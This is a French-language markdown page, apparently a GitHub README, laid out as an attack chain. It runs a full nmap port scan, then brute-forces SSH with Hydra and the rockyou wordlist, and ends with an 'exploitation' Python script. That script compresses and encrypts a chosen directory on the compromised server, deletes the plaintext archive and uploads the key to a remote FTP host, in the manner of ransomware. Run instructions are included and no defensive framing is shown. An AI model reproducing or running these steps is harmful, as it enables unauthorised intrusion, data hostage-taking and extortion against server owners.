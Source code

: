 ### Reconnaissance :  

Pour effectuer un scan avec Nmap afin d’identifier les ports ouverts et les services associés, une commande courante et complète est la suivante :

```bash
nmap -A -p- <adresse_IP_cible>
```

Explications des options utilisées :

- **-A** : Active plusieurs fonctionnalités avancées, notamment la détection du système d’exploitation, la détection de versions, l’exécution de scripts Nmap par défaut et la réalisation d’un traceroute.  
- **-p-** : Indique à Nmap de scanner tous les ports (de 1 à 65535).

Cette combinaison permet d’obtenir une vision très complète des services qui tournent sur la cible. Si vous souhaitez un scan un peu moins exhaustif, vous pouvez limiter le nombre de ports, par exemple :

```bash
nmap -sV -p 1-1000 <adresse_IP_cible>
```

Ici, le **-sV** activera la détection de version des services, et le **-p 1-1000** limitera le scan aux 1000 premiers ports les plus courants, ce qui peut être plus rapide.

### Attaque :  
prerequis :  
  - Dictionnaire : https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt
Pour mener une attaque par force brute sur un service SSH à l’aide de **Hydra**, vous pouvez utiliser la syntaxe suivante :

```bash
hydra -l <nom_utilisateur> -P <chemin/liste_mdp.txt> ssh://<adresse_IP_cible> -t 4 -V
```

**Explications des options :**  
- **-l <nom_utilisateur>** : Spécifie un nom d’utilisateur unique à tester.  
  - Si vous voulez tester plusieurs noms d’utilisateurs, utilisez **-L <liste_utilisateurs.txt>** à la place.  
- **-P <chemin/liste_mdp.txt>** : Indique la liste de mots de passe à tester.  
- **ssh://<adresse_IP_cible>** : Spécifie le protocole (ssh) et l’adresse IP de la cible.  
- **-t 4** : Définit le nombre de tâches (threads) parallèles, ici 4. Vous pouvez augmenter ou diminuer ce nombre en fonction de la performance.  
- **-V** : Mode verbeux, affiche chaque tentative.

**Exemple complet :**

```bash
hydra -l admin -P /home/user/liste_mots_de_passe.txt ssh://192.168.1.10 -t 4 -V
```

Exploitation :  


Ci-dessous un exemple de script Python « tout-en-un » qui :

1. Vérifie la présence de la dépendance `cryptography`.  
2. Si elle n’est pas installée, le script l’installe automatiquement via `pip`.  
3. Ensuite, il exécute le code principal (génération de clé, chiffrement, etc.).

Ce script suppose que :  
- Vous avez un accès à internet sur le serveur.  
- `pip` est disponible sur le serveur (la plupart des environnements Python récents incluent `pip`).  
- Les autres modules utilisés (`ftplib`, `tarfile`, `getpass`, `os`) font partie de la bibliothèque standard de Python et n’ont pas besoin d’être installés.

### Script complet

```python
import sys
import subprocess
import os
import tarfile
import getpass
from ftplib import FTP

# Vérification/installation des dépendances
try:
    from cryptography.fernet import Fernet
except ImportError:
    print("[*] Le module 'cryptography' n'est pas installé. Installation en cours...")
    subprocess.check_call([sys.executable, "-m", "pip", "install", "cryptography"])
    # Réessayer l'import après installation
    from cryptography.fernet import Fernet

def compress_directory(directory_path, archive_name):
    """
    Compresse un répertoire en une archive tar.gz.
    """
    with tarfile.open(archive_name, "w:gz") as tar:
        tar.add(directory_path, arcname=os.path.basename(directory_path))

def encrypt_file(key, input_file, output_file):
    """
    Chiffre un fichier avec la clé fournie (Fernet).
    """
    f = Fernet(key)
    with open(input_file, 'rb') as f_in:
        data = f_in.read()
    encrypted_data = f.encrypt(data)
    with open(output_file, 'wb') as f_out:
        f_out.write(encrypted_data)

def upload_key_ftp(ftp_host, ftp_user, ftp_password, local_key_file, remote_key_file):
    """
    Envoie la clé sur le serveur FTP.
    """
    ftp = FTP(ftp_host)
    ftp.login(ftp_user, ftp_password)
    with open(local_key_file, 'rb') as f:
        ftp.storbinary(f"STOR {remote_key_file}", f)
    ftp.quit()

def main():
    # 1. Génération de la clé de chiffrement
    key = Fernet.generate_key()
    key_file = "encryption_key.key"
    with open(key_file, 'wb') as f:
        f.write(key)
    print(f"[+] Clé de chiffrement générée et enregistrée dans {key_file}")

    # 2. Demander à l'utilisateur de choisir un dossier à chiffrer
    directory_to_encrypt = input("Entrez le chemin du dossier à chiffrer : ").strip()
    if not os.path.isdir(directory_to_encrypt):
        print("Le chemin spécifié n'est pas un répertoire valide.")
        return

    # 3. Compression du dossier
    archive_name = "data_to_encrypt.tar.gz"
    compress_directory(directory_to_encrypt, archive_name)
    print(f"[+] Dossier {directory_to_encrypt} compressé dans {archive_name}")

    # 4. Chiffrement de l'archive
    encrypted_file = "data_encrypted.enc"
    encrypt_file(key, archive_name, encrypted_file)
    print(f"[+] Fichier {archive_name} chiffré dans {encrypted_file}")

    # (Optionnel) Supprimer l’archive non chiffrée
    os.remove(archive_name)

    # 5. Exporter la clé vers le serveur FTP
    ftp_host = input("Entrez l'IP/nom du serveur FTP : ").strip()
    ftp_user = input("Nom d'utilisateur FTP : ").strip()
    ftp_password = getpass.getpass("Mot de passe FTP : ")

    remote_key_file = "encryption_key.key"  # Nom du fichier distant, à adapter
    upload_key_ftp(ftp_host, ftp_user, ftp_password, key_file, remote_key_file)
    print(f"[+] Clé {key_file} envoyée sur le serveur FTP {ftp_host} en tant que {remote_key_file}")

    # Optionnel : supprimer la clé locale si on ne veut pas la garder
    # os.remove(key_file)

    print("[+] Opération terminée avec succès.")

if __name__ == "__main__":
    main()
```

### Comment utiliser ce script ?

- Copiez-le dans un fichier `script.py`.  
- Sur le serveur, exécutez :  
  ```bash
  python3 script.py
  ```  
- Le script va vérifier si `cryptography` est installé. Si non, il va l’installer.  
- Puis il vous demandera le chemin du dossier à chiffrer, l’adresse du serveur FTP, ainsi que vos identifiants FTP.
  
Une fois terminé, vous aurez :  
- Le fichier chiffré (`data_encrypted.enc`) localement.  
- La clé de chiffrement (`encryption_key.key`) envoyée sur le serveur FTP.
